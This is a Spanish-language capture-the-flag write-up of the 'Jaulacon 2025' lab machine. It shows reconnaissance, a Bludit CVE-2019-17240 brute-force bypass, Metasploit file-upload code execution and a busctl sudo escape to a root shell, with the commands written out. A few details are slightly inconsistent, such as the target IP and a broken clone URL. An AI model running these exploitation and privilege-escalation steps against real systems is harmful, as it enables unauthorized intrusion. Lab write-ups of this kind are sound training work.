# 🧠 Write-up: Jaulacon 2025 (THL)



---

## 📸 Evidencias del proceso

### Fase de Reconocimiento
Utilizamos `nmap` con parametros agresivos para descubrir servicios expuestos:


````
nmap -p- --open --min-rate=5000 -sSCV -n -Pn 10.0.2.10
````
**Servicios detectados:**
- `22/tcp` → OpenSSH 9.2p1 (Debian)
- `80/tcp` → Apache 2.4.62 (Debian) corriendo Bludit CMS

### Fuzzing y Recolección de Información
Usamos `gobuster` para enumerar directorios:


````
gobuster dir -u http://10.0.2.10 -w /usr/share/wordlists/dirb/common.txt
````
**Directorios destacados:**
- `/admin`
- `/cgi-bin/`
- `/robots.txt`

La pagina principal revelo el nombre de usuario `Jaulacon2025`. Se confirmo que el CMS 
usado era **Bludit**.  



### Explotación: Bypass de Bruteforce (CVE-2019-17240)
Se identifico una vulnerabilidad en Bludit 3.9.2 que permite saltarse la mitigacion de brute
force.


````
git clone https://github.com/0xDTC/Bludit-3.9.2-Auth-Bruteforce-Bypass-CVE-2019
17240
````
````
cd Bludit-3.9.2-Auth-Bruteforce-Bypass-CVE-2019-17240
````
````
bash CVE-2019-17240 -u http://10.0.2.10/admin/login.php -U Jaulacon2025 -w 
/usr/share/wordlists/rockyou.txt
````  


**Resultado:** Se encontro la contrasena `cassandra`.  



### Acceso al panel de administración 
Credenciales validas (`Jaulacon2025:cassandra`) permitieron acceso al panel `/admin`.



### Explotación con Metasploit
Con las credenciales obtenidas Bludit es vulnerable a subida de archivos con ejecucion 
remota:


````
 msf6 > use exploit/linux/http/bludit_upload_images_exec
````
**Configuración:**
- `BLUDITUSER`: Jaulacon2025
- `BLUDITPASS`: cassandra
- `RHOSTS`: 10.0.2.1 



**Resultado:** Shell Meterpreter obtenida.  



### Post-Explotación
Desde Meterpreter se verificó el sistema de archivos. Se revisó el archivo `users.php` y se 
encontraron hashes:



Tras descifrar el hash con CrackStation, se obtuvo la contrasena “Brutales” para el usuario 
“Jaulacon2025”  



### Escalada de Privilegios
Se accedió por SSH.


````
ssh Jaulacon2025@10.0.2.1
````
**Password: Brutales**

Se identificó que `busctl` podía ser ejecutado como root sin contrasena:  


````
sudo -l
````

Tecnica de escalada de privilegios tomada desde GTFOBins:  


````
 sudo busctl set-property org.freedesktop.systemd1 
/org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s 
debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 
1>&2'
````

### Acceso como `Root`  

